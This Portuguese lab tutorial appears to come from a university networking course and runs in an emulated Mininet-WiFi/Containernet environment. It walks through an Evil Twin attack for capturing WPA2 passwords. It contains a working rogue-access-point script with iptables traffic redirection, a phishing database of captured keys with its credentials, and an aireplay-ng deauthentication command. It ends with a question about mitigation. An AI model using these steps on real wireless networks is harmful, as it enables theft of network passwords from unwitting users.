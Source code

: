 ************
Evil Twin Attack
************


Hackeando a senha WPA2 usando Evil Twin Attack | DNSMASQ e Hostapd
-------------

.. image:: https://github.com/ramonfontes/sphinx_rtd_theme/blob/master/docs/imgs/evil-twin.png?raw=true

.. Note::
  **Neste documento você irá compreender como realizar o ataque denominado de  Evil Twin Attack**
  
  **Requisitos:** 
  
  - Containernet - https://github.com/ramonfontes/containernet
  - Hostapd

  **A VM disponível em https://github.com/intrig-unicamp/mininet-wifi deverá possuir todos os recursos necessários para reproduzir este documento. Caso alguma dependência esteja faltando ela terá de ser resolvida**

Antes de tudo você precisa identificar a topologia de rede que será gerada através do código abaixo:

.. code:: python

 #!/usr/bin/python

 '''@author: Ramon Fontes
    @email: ramon.fontes@imd.ufrn.br'''

 from containernet.net import Containernet
 from containernet.node import DockerSta
 from mininet.log import setLogLevel, info
 from containernet.cli import CLI
 from containernet.term import makeTerm


 def topology():
     "Create a network."
     net = Containernet()

     info("*** Creating nodes\n")
     sta1 = net.addStation('sta1', ip='192.168.190.2/24')
     sta2 = net.addStation('sta2', ip='192.168.190.3/24')
     ap1 = net.addAccessPoint('ap1', ssid="simplewifi", mode="g", channel="1",
                              failMode="standalone", datapath='user')
     ap2 = net.addStation('ap2', cls=DockerSta, dimage="ramonfontes/rogue-ap", cpu_shares=20)

     info("*** Configuring wifi nodes\n")
     net.configureWifiNodes()

     info("*** Starting network\n")
     net.build()
     ap1.start([])

     ap2.setMasterMode(intf='ap2-wlan0', ssid='simplewifi', channel='1', mode='g')
     #ap2.cmd('pkill -f \"ap2-wlan0.apconf\"')
     ap2.cmd('ifconfig ap2-wlan0 up 192.168.190.1 netmask 255.255.255.0')

     #ap2.cmd('iptables --flush')
     ap2.cmd('iptables --table nat --append POSTROUTING --out-interface ap2-eth1 -j MASQUERADE')
     ap2.cmd('iptables --append FORWARD --in-interface ap2-wlan0 -j ACCEPT')
     ap2.cmd('iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 192.168.190.1:80')
     ap2.cmd('iptables -t nat -A PREROUTING -p tcp --dport 443 -j DNAT --to-destination 192.168.190.1:80')
     ap2.cmd('iptables -t nat -A POSTROUTING -j MASQUERADE')
     ap2.cmd('echo 1 > /proc/sys/net/ipv4/ip_forward')

     sta2.cmd('route add default gw 192.168.190.1')
     sta2.cmd('iw dev sta1-wlan0 interface add mon0 type monitor')
     sta1.cmd('iwconfig sta1-wlan0 essid simplewifi ap 02:00:00:00:03:00')

     info("*** Running CLI\n")
     CLI(net)

     info("*** Stopping network\n")
     net.stop()


 if __name__ == '__main__':
     setLogLevel('info')
     topology()
```

Considerando que o código acima tenha sido salvo em um arquivo com nome `evil-twin-attack.py`, execute-o conforme abaixo:

.. code:: console

    sudo python evil-twin-attack.py
    
De acordo com a topologia acima, `sta1` deverá estar conectado ao ponto de acesso `ap1`. Voce pode confirmar esta afirmação utilizando o comando abaixo:

.. code:: console

    sta1 iw dev sta1-wlan0 link
    Connected to 02:00:00:00:03:00 (on sta1-wlan0)
          SSID: simplewifi
          freq: 2412
          RX: 62468 bytes (1373 packets)
          TX: 144 bytes (4 packets)
          signal: -36 dBm
          tx bitrate: 1.0 MBit/s

          bss flags:	short-slot-time
          dtim period:	2
          beacon int:	100
    
Na topologia do código acima, `sta1` será a vítima e `sta2` o atacante. Além disso, o ponto de acesso `ap1` será o ponto de acesso real e o ataque será feito através do ponto de acesso `ap2`.


.. admonition:: Passo a ser realizado
 
   - Neste momento, você deverá configurar ap2 de forma que ele permita o encaminhamento de dados entre a sua interface sem fio e sua interface com fio, de forma que a vítima possa ter acesso à Internet.
   - Execute também o hostapd em `ap2` para que a vítima possa receber sinal do ponto de acesso falso.
   
Neste momento, `ap2` deverá estar acessível à `sta1`, conforme pode ser observado abaixo:

.. code:: console

    sta1 iw dev sta1-wlan0 scan | grep SSID
    
    SSID: simplewifi
    SSID: simplewifi

A saída acima comprova que existem dois pontos de acesso divulgando o mesmo SSID.


Neste momento, você que é `sta2`, deverá conectar-se ao ponto de acesso `ap2` - o seu AP falso - e testar a conectividade com a Internet. Portanto, ao conectar-se, a saída esperada é a que se encontra abaixo:

.. code:: console

    containernet> sta2 ping -c1 8.8.8.8
    PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
    64 bytes from 8.8.8.8: icmp_seq=1 ttl=117 time=1100 ms

    --- 8.8.8.8 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 1100.253/1100.253/1100.253/0.000 ms

.. admonition:: Passo a ser realizado

   - Agora, você deverá configurar `ap2` de forma que todo tráfego tendo como porta de origem 80 seja redirecionado para 192.168.190.1 também na porta 80.
   - Como o `ap2` já vem pré-configurado com os recursos de software necessários para a execução do ataque, inicie os serviços `apache2` e `mysql`.
   - Defina o endereço de DNS de `sta2` para 8.8.8.8.
 
Então, ao tentar acessar o endereço http://www.google.com:80 ou qualquer outro site na porta 80 a partir de `sta2`, você deverá obter como resultado algo similar à figura apresentada abaixo:

.. image:: https://github.com/ramonfontes/sphinx_rtd_theme/blob/master/docs/imgs/evil-twin-screenshot.png?raw=true

Em um ambiente bem configurado, não seria necessário definir a porta 80. Qualquer site seria redirecionado para a página apresentada acima. Mesmo que fosse uma página em HTTPs. Aqui, certifique-se, pelo menos, que o arquivo em `ap2` localizado em `/var/www/html/dbconnect.php` possua o valor definido para a variável $host o mesmo IP da porta `eth0` de `ap2`. Caso contrário, você deverá ter que realizar modificações para que o servidor mysql funcione corretamente.

.. hint::

    - Usuário do banco de dados: rogueuser
    - Senha do usuário rogueuser: roguepassword
    - Nome do banco de dados: rogueap

Com todos os passos realizados com sucesso, você agora tem um ambiente pronto. Isso signfica que ao preencher alguma informação nos campos de usuário e senha da página acessada acima e submeter o formulário, as informações serão salvas no banco de dados `rogueap`.

Você pode confirmar a obtenção das informações através de uma consulta na tabela `wpa_keys`, conforme abaixo:

.. admonition:: Passo a ser realizado

     mysql> select * from wpa_keys;
     +-----------+-----------+
     | password1 | password2 |
     +-----------+-----------+
     | teste     | teste     |
     +-----------+-----------+
     1 row in set (0.00 sec)

Agora, só nos basta executar o comando abaixo para forçar a desassociação de `sta1` em relação ao `ap1`.

.. code:: console

   aireplay-ng -00 -a 02:00:00:00:03:00 mon0 --ignore-negative-one
   
Você poderá confirmar através do comando abaixo que `sta1` agora está associado ao `ap2`.


.. code:: console
     containernet> sta1 iw dev sta1-wlan0 link
     Connected to 02:00:00:00:02:00 (on sta1-wlan0)
      SSID: simplewifi
      freq: 2412
      RX: 2816701 bytes (62595 packets)
      TX: 2544 bytes (104 packets)
      signal: -36 dBm
      tx bitrate: 1.0 MBit/s

      bss flags:	short-slot-time
      dtim period:	2
      beacon int:	100


Qualquer acesso realiado por `sta1` agora será redirecionado para o `ap2`.
 

.. admonition:: Perguntas

    -Q1. Como este ataque pode ser mitigado?
